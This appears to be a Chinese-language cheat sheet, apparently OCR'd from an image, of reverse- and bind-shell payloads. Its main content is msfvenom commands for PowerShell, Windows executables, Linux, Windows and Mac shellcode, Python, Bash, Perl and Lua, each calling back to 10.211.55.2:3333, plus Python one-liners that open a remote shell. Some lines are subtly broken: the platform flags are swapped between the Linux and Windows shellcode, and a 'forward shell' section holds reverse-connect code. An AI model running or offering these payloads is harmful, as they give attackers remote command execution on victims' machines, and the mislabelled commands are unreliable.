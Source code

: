 ### Powershell
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
```

###  Netcat
nc正向连接
```
msfvenom -p windows/shell_hidden_bind_tcp LHOST=10.211.55.2 LPORT=3333  -f exe> 1.exe  
```
nc反向连接，监听
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333  -f exe> 1.exe
```
## Shellcode

###  基于Linux的Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f c
```
###  基于Windows的Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f c
```
###  基于Mac的Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f c
```
## 脚本

### Python反弹shell
```
msfvenom -p cmd/unix/reverse_python LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py

msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py
```
### Python正向shell
```
python/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.2",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

python/python3 -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(("10.211.55.2",3333))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```
###  Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=10.211.55.2 LPORT=3333 -f raw > shell.sh
```
###  Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=10.211.55.2 LPORT=3333 -f raw > shell.pl
```
### Lua
```
msfvenom -p cmd/unix/reverse_lua LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.lua
```